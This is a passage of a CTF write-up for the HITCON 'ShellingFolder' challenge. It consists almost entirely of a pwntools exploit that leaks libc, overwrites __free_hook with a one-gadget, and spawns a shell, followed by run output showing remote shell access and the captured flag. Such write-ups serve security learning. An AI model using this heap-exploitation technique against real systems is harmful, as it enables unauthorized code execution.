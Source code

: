 ```python
    # leak libc address
    ######################## one gadget
    # .text:000000000004525A                 mov     rax, cs:environ_ptr_0
    # .text:0000000000045261                 lea     rdi, aBinSh     ; "/bin/sh"
    # .text:0000000000045268                 lea     rsi, [rsp+188h+var_158]
    # .text:000000000004526D                 mov     cs:dword_3C54A0, 0
    # .text:0000000000045277                 mov     cs:dword_3C54A4, 0
    # .text:0000000000045281                 mov     rdx, [rax]
    # .text:0000000000045284                 call    execve
    ##########################
    r.recvuntil("----------------------\n")
    libc.address += u64(r.recv(6).ljust(8, "\x00")) - 0x3c3b78
    one_gadget = libc.address + 0x4525a
    malloc_hook = libc.symbols['__malloc_hook']
    free_hook = libc.symbols['__free_hook']
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))
    log.success("malloc_hook: "+hex(malloc_hook))
    log.success("free_hook: "+hex(free_hook))

    # overwrite free_hook to one_gadet
    make_dir("DDDD")
    change_dir("DDDD\n")
    create_file("i"*24+p64(free_hook)[:7:], (one_gadget & 0xffffffff))
    create_file("I"*24+p64(free_hook+4)[:7:], ((one_gadget & 0xffffffff00000000)>>32))
    cal()
    # get shell
    remove("i"*24+p64(free_hook)[:7:])
    
    r.interactive()
```

```
[x] Opening connection to 52.69.237.212 on port 4869
[x] Opening connection to 52.69.237.212 on port 4869: Trying 52.69.237.212
[+] Opening connection to 52.69.237.212 on port 4869: Done
[+] libc_base: 0x7ff15c7cc000
[+] one_gadget: 0x7ff15c81125a
[+] malloc_hook: 0x7ff15cb8fb10
[+] free_hook: 0x7ff15cb917a8
[*] Switching to interactive mode
 size 32753
The size of the folder is 0
**************************************
            ShellingFolder            
**************************************
 1.List the current folder            
 2.Change the current folder          
 3.Make a folder                      
 4.Create a file in current folder    
 5.Remove a folder or a file          
 6.Caculate the size of folder        
 7.Exit                               
**************************************
Your choice:Choose a Folder or file :

// id
uid=1000(shellingfolder) gid=1000(shellingfolder) groups=1000(shellingfolder)

// cat /home/shellingfolder/flag
hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}
``` 

flag: `hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}`